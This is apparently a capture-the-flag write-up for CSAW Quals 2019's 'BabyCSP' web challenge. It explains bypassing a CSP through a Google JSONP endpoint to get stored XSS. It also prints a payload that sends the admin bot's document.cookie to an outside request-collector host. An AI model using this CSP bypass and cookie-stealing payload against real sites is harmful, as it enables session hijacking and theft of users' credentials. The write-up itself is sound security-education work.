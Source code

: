 # BabyCSP writeup - 50pts

## What we have
The chall provide us with a link to a very basic website:

![Screenshot of the challenge website](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/BabyCSP-50/Screenshots/1.jpg?raw=true)

We can create posts, view them and report them to an admin. Nice!

On the top of the website, we can see the [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) rules used:

    default-src 'self'; script-src 'self' *.google.com; connect-src *

Maybe we can do an XSS and steal the bot/admin cookies? But first, we need to discover how to bypass CSP in order to execute arbitrary javascript on clients.

## CSP Bypass
First of all, I tried to analyze the chall CSP rules with the [Google CSP Evaluator Tool](https://csp-evaluator.withgoogle.com/):

![The Google CSP Evaluetor Tool Analysis](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/BabyCSP-50/Screenshots/2.jpg?raw=true)

Seems good: we can use a JSONP endpoint to bypass CSP.

Searching on the web, I found a list of endpoints on *.google.com [here](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt).

I chose to use this endpoint: https://accounts.google.com/o/oauth2/revoke?callback=YOUR-JAVASCRIPT-HERE

So, now, we can try to inject javascript including this link as a script inside posts.

## Stealing admin cookies
I wrote, just to try, the following post:
`<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>` and a nice popup appeared when I opened the post.

Someone here forgot to sanitize inputs :P

![XSS executed!](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/BabyCSP-50/Screenshots/3.jpg?raw=true)

I then prepared a [RequestBin](https://requestbin.com) to receive admin cookies, I created a post with the following payload (everything after "callback=" is urlencoded, just to be sure):

    <script src="https://accounts.google.com/o/oauth2/revoke?callback=window.location.href%3D%27https%3A%2F%2Fen5pzvwnw7lrc.x.pipedream.net%3Fa%3D%27%2Bdocument.cookie%3B"></script>

And I reported it to the admin.

Fewer minutes later, I received this request directly containing the flag:
![Screenshot of the request received, containing the flag](https://github.com/jacopotediosi/Writeups/blob/master/CTF/CSAW-Quals-2019/Web/BabyCSP-50/Screenshots/4.jpg?raw=true)
